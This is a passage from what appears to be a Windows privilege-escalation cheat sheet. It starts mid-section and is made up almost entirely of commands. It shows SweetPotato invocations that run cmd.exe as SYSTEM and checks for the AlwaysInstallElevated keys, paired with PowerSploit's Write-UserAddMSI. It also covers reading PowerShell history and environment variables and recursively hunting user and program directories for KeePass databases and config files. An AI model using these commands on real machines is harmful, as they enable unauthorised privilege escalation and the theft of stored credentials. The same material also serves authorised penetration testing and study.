 ```
SweetPotato.exe -p "C:\Windows\System32\cmd.exe" -a "/c whoami"
```
Try running SweetPotato with some CLSID that can be found online:
```
SweetPotato.exe -p "C:\Windows\System32\cmd.exe" -a "/c whoami" -t {F87B28F1-DA9A-4E02-9C45-BD3E31398881}
```

# 2) AlwaysInstallElevated
If these 2 registers are enabled (value is `0x1`), then users of any privilege can install (execute) `.msi` files as NT AUTHORITY\SYSTEM:
```bat
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
```bat
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
### Privilege Escalation
Attack with PowerSploit (adds `.msi` to current directory that elevates privileges):
```PowerShell
Write-UserAddMSI
```

# 3) View History
Get-History:
```PowerShell
Get-History
```
PSReadLine (a second PS history log):
```PowerShell
(Get-PSReadlineOption).HistorySavePath
```

```bat
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Enumerate environment variables:
```bat
set
```
or
```PowerShell
Get-ChildItem Env:
```
# 4) Interesting Files
Useful files in user's directory:
```PowerShell
Get-ChildItem -Path C:\Users\ -Include *.txt,*.settings,*.ini,*.log,*.kdbx,*.xml,*.config,*.doc,*.docx,*.pdf,*.xls,*.xlsx,*.ps1 -File -Recurse -ErrorAction SilentlyContinue
```
Useful files everywhere (noisy):
```PowerShell
Get-ChildItem -Path C:\ -Include *.kdbx,*.ini,*.txt,*.settings -File -Recurse -ErrorAction SilentlyContinue
```
Configuration / settings files in Program Files:
```PowerShell
Get-ChildItem -Path "C:\Program Files (x86)" -Include *.txt,*.settings,*.ini,*.log,*.kdbx,*.xml,*.config -File -Recurse -ErrorAction SilentlyContinue
```
```PowerShell
Get-ChildItem -Path "C:\Program Files" -Include *.txt,*.settings,*.ini,*.log,*.kdbx,*.xml,*.config -File -Recurse -ErrorAction SilentlyContinue
```